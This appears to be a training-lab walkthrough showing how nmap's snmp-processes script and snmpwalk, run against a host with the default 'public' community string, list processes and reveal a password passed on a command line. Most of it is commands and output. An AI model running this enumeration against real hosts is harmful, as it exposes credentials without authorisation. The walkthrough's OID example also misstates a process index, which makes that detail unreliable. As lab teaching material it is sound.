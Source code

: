 

# Commands
```
root@attackdefense:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
136908: eth0@if136909: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:00:08 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.8/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
136911: eth1@if136912: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:9c:46:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.156.70.2/24 brd 192.156.70.255 scope global eth1
       valid_lft forever preferred_lft forever
root@attackdefense:~# 


root@attackdefense:~# nmap -sU -p 161 -sV 192.156.70.3
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-29 18:42 UTC
Nmap scan report for target-1 (192.156.70.3)
Host is up (0.00025s latency).

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
MAC Address: 02:42:C0:9C:46:03 (Unknown)
Service Info: Host: victim-1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.67 seconds
```

The SNMP server is running on port 161 of the target machine. The snmp server is configured
to use the community string "public"
​Identify the processes running on the target machine. Nmap script is available to
identify the processes and the parameters passed to them.
https://nmap.org/nsedoc/scripts/snmp-processes.html

```
root@attackdefense:~# nmap -sU -p 161  --script snmp-processes  192.156.70.3
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-29 19:55 UTC
Nmap scan report for target-1 (192.156.70.3)
Host is up (0.000098s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-processes: 
|   1: 
|     Name: sh
|     Path: /bin/sh
|     Params: -c "/startup.sh"
|   7: 
|     Name: startup.sh
|     Path: /bin/bash
|     Params: /startup.sh
|   10: 
|     Name: snmpd
|     Path: snmpd
|   12: 
|     Name: apache2
|     Path: apache2
|   13: 
|     Name: processor
|     Path: processor
|     Params: -u bruce -p s3cr3tP4ss
|   14: 
|     Name: supervisord
|     Path: /usr/bin/python
|     Params: /usr/bin/supervisord -n
|   15: 
|     Name: apache2
|     Path: apache2
|   16: 
|     Name: apache2
|_    Path: apache2
MAC Address: 02:42:C0:9C:46:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds

```

Snmpwalk requires the options and oid to be passed along with the IP address of the remote machine. Identifying the OID required to view the interface information. The information regarding processes are stored in the hrSWRunTable. Search for hrSWRunTable in the OID
repository. OID Repository Link: ​http://www.oid-info.com/basic-search.htm  
Ref http://www.oid-info.com/get/1.3.6.1.2.1.25.4.2


There are 8 child OIDs for hrSWRUNEntry. Two of the child OID are hrSWRunName and
hrSWRunParameters. The first OID will reveal the name of the process and the second OID will
reveal the parameters passed to the program.
hrSWRunName OID: 1.3.6.1.2.1.25.4.2.1.2
hrSWRunParameters OID: 1.3.6.1.2.1.25.4.2.1.5
​Pass the hrSWRunName OID along with other required arguments to the snmpwalk tool.


```
root@attackdefense:~# snmpwalk -v 2c -c public 192.156.70.3 .1.3.6.1.2.1.25.4.2.1.2
Created directory: /var/lib/snmp/mib_indexes
iso.3.6.1.2.1.25.4.2.1.2.1 = STRING: "sh"
iso.3.6.1.2.1.25.4.2.1.2.7 = STRING: "startup.sh"
iso.3.6.1.2.1.25.4.2.1.2.10 = STRING: "snmpd"
iso.3.6.1.2.1.25.4.2.1.2.12 = STRING: "apache2"
iso.3.6.1.2.1.25.4.2.1.2.13 = STRING: "processor"
iso.3.6.1.2.1.25.4.2.1.2.14 = STRING: "supervisord"
iso.3.6.1.2.1.25.4.2.1.2.15 = STRING: "apache2"
iso.3.6.1.2.1.25.4.2.1.2.16 = STRING: "apache2"
root@attackdefense:~# ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2384   704 ?        Ss   18:31   0:00 /bin/sh /startup.sh
root          19  0.2  0.0 105924 20252 ?        Sl   18:31   0:12 /usr/local/bin/ttyd -p 45654 bash
root          21  0.0  0.0   3812  2756 pts/0    Ss   18:34   0:00 bash
root          27  0.0  0.0   7636  2596 pts/0    R+   20:14   0:00 ps aux
root@attackdefense:~# 
```

Pass the hrSWRunParameters OID along with other required arguments to identify the parameters to the process :

```
root@attackdefense:~# snmpwalk -v 2c -c public 192.156.70.3 .1.3.6.1.2.1.25.4.2.1.5 | grep STRING
iso.3.6.1.2.1.25.4.2.1.5.1 = STRING: "-c \"/startup.sh\""
iso.3.6.1.2.1.25.4.2.1.5.7 = STRING: "/startup.sh"
iso.3.6.1.2.1.25.4.2.1.5.13 = STRING: "-u bruce -p s3cr3tP4ss"
iso.3.6.1.2.1.25.4.2.1.5.14 = STRING: "/usr/bin/supervisord -n"
```

The parameters can be related to the processes by relating the last digit (Process ID) in the OID string. For example, the OID string for the "processor" process has "12" in the end, therefore the OID string for the parameters will also have the same digit in the end. The username and password are passed as parameters to the processor program. The password of user bruce is "s3cr3tP4ss"

# References:
1. Process Discovery (​https://attack.mitre.org/techniques/T1057/​)
2. Nmap Script SNMP Processes (​https://nmap.org/nsedoc/scripts/snmp-processes.html​)
3. OID Repository (​http://www.oid-info.com​)
4. Snmpwalk (​https://linux.die.net/man/1/snmpwalk​)


